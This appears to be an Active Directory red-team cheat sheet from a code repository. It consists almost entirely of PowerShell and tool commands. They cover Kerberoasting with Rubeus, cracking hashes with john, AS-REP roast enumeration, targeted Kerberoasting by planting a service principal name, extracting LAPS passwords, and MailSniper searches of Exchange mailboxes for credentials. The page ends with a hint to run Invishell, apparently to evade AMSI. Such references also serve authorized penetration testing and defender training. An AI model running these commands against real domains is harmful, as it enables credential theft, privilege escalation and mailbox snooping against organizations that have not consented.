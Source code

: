 => Enum group permissions for restricted group (ITERATIVE process)

### Kerberoast (AS-REQ)

```Powershell
Get-DomainUser -SPN

# https://github.com/GhostPack/Rubeus#kerberoast
Rubeus.exe kerberoast /user:<user> /outfile:<output_file>

john.exe --wordlist=<wordlist> <hashes>
```

### AS-REP roast

```Powershell
Get-DomainUser -PreauthNotRequired

Get-DomainUser -UACFilter DONT_REQ_PREAUTH
```

### Targeted kerberoast

Requirement: GenericWrite/GenericAll DACL over object
```Powershell
Set-DomainObject -Identity <target_user> -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}

# set back
Set-DomainObject -Identity <target_user> -Clear serviceprincipalname
```

### LAPS

```Powershell
Import-Module <AD-module>

Import-Module <AdmPwd.PS.psd1>

.\Get-LAPSPermissions.ps1

Get-DomainComputer -Searchbase "OU=xxx,DC=yyy,DC=zzz"

Get-AdmPwdPassword -ComputerName <computer>
```

### Exchange

```Powershell
. .\Mail_Sniper.ps1

Get-GlobalAddressList -ExchHostname <mail_server> -exchange -UserName <user> -password <pw> -Verbose

# copy list to text file

Invoke-OpenInboxFinder -EmailList <mail_list.txt> -ExchHostname <mail_server> -Verbose

Invoke-SelfSearch -Mailbox <email_address> -ExchHostname <mail_server> -OutputCsv mail.csv

type mail.csv


# Run cmd in context of new user
runas /netonly /user:<user> cmd.exe

# Run Invishell
```